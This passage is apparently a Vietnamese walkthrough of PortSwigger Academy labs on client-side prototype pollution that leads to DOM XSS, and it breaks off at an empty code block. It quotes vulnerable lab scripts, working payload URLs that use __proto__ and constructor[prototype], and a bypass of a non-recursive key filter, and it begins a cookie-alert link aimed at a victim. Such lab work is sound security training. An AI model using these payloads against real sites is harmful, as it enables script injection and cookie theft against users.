>>*Chú ý*: giải topic này cần Extention **DOM Invader** của trình duyệt có sẵn trong Burp

## **Lab: Client-side prototype pollution via browser APIs**


>>Lab có chứa lỗ hổng **DOM XSS** có thể khai thác qua **Prototype Pollution**
>>Thực thi hàm `alert` để solve



Ta thực hiện scan bằng **DOM Invader** và ta nhận được có 2 cách để đưa **prototype** vào:
- Thứ nhất là `__proto___[property]`
- Thứ 2 là `constructor[prototype][property]`

Ta thử thực hiện khai thác theo cách thứ nhất: thông qua thuộc tính `__proto___` của **Object Prototye** bằng payload:

```url
https://0a0a00ab0310dac7802612af0001008e.web-security-academy.net/?__proto__[test123]=test123
```

Ta thực hiện kiểm tra thuộc tính ta vừa thêm vào là `test123` thì nhận được kết quả ta đã thực hiện thêm vào thành công



Thực hiện scan xem luồng đi của dữ liệu đến sink cuối nào



Ta nhận được sink có thể lợi dụng là `script.src`,
ta cũng có thể xem được đoạn code đó bằng `at Object...`



Đoạn code này ở `searchLoggerConfigurable.js:14:20` tức là file `searchLoggerConfigurable.js` dòng `14` và cột `20`



```javascript
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```
`defineProperty` để định nghĩa hoặc sửa đổi một thuộc tính của 1 object, ở đây nó thực hiện định nghĩa/sửa đổi một thuộc tính có tên là `transport_url` của object `config`, phần cấu hình nhận vào 3 tham số là `configurable`, `writable` và `value` nhưng phần code phía trên ta chỉ thấy có `2` tham số, vì vậy ta có thể lợi dụng tham số `value` để có thể thực hiện thêm thuộc tính `value` vào khiến nó thực hiện gọi lên Object Prototype rồi thực thi code\
Ta thực hiện khai thác bằng:
```url
https://0a1600ac03e0863c8098ad8b00e000cd.web-security-academy.net/?__proto__[value]=data:,alert(1);
```

hoặc 

```url
https://0a1600ac03e0863c8098ad8b00e000cd.web-security-academy.net/?constructor[prototype][value]=data:,alert(1);
```

đều cho ra kết quả tương tự



Ta có thể thực hiện khai thác bằng `DOM Invader` một cách nhanh chóng


<br>


## **Lab: DOM XSS via client-side prototype pollution**


>>Lab vẫn yêu cầu thực hiện hàm `alert` để tạo ra **DOM XSS**



Bài này vẫn tương tự như bài trước khi ta thực hiện fuzz 



Ta thực hiện dùng **DOM Invader** giải thẳng

## **Lab: DOM XSS via an alternative prototype pollution vector**


>>Bài này có yêu cầu tương tự nhưng phần hint có nói là phải chỉnh payload **XSS** theo ngữ cảnh



Ta thực hiện dùng DOM Invader để thực hiện scan thì nhận được một vector để khai thác



Tool phát hiện sink là thẻ `eval` có thể khai thác\
Tiếp tục thực hiện phân tích source phía client

```javascript
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

Hàm khởi tạo 2 object là `window.macros` và `window.manager`\
Sau đó thực hiện thêm thuộc tính `sequence`, nếu không có thì mặc định là `1` nếu có thì lấy giá trị của `manager.sequence` rồi cộng thêm `1`\Cuối cùng thì cho vào hàm `eval` để thực thi một string như một đoạn mã JS\
Từ đây ta thử một payload load `?__proto__.sequence=alert%281%29`



Dù ta thấy `Object.prototype.sequence` trả về đúng giá trị là `alert(1)` nhưng không thấy có popup được thực thi\
Bởi vì sequence khi truyền vào đã bị cộng thêm `1`, vậy nên có thể khi vào hàm `eval` nó sẽ trở thành 

```javascript
eval('if(manager && manager.sequence){ manager.macro(alert(1)+1)}');
```

và có thể xảy ra exception nên `alert` không được thực thi, vì vậy ta phải biến đổi payload thành

```
?__proto__.sequence=alert%281%29-
```

Khi đó thẻ `eval` sẽ có dạng

```javascript
eval('if(manager && manager.sequence){ manager.macro(alert(1)-+1)}');
```

Khi này bên trong `manager.macro` sẽ thực hiện như một biểu thức cộng trừ bình thường, hàm `alert` sẽ được thực thi trước, sau đó nó được trả về là `undefined` sau đó lại trừ với `1`, điều này có xảy ra hay không không quan trọng, quan trọng là `alert` đã được thực thi 



## **Lab: Client-side prototype pollution via flawed sanitization**


Ta dùng DOM Invader thực hiện scan và nhận được một vector khai thác là `__pro__proto__to__[property]`



Thực hiện đọc code phía client 

```javascript
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Ta thấy được ngoài hàm thêm script vào DOM, ta còn thấy một hàm thực hiện replace những chuỗi `__proto__`, nhưng ta nhận thấy rằng việc replace chỉ thực hiện 1 lần, không có đệ quy nên ta có thể thực hiện bypass bằng `__pro__proto__to__[property]`



## **Lab: Client-side prototype pollution in third-party libraries**


>>Lab yêu cầu thực hiện `alert(document.cookie)` ở phía của **victim**

Thực hiện scan và ta nhận được 2 vector tấn công 



Ta tiến hành scan tiếp và lấy được sink để khai thác là hàm `setTimeout(c, 10)`


<br>


Ta thực hiện khai thác bằng **DOM Invader**



Ta thấy popup đã được thực hiện, bây giờ ta sẽ tạo link độc cho victim\
Đề yêu cầu thực hiện hiện popup của `document.cookie`

```html
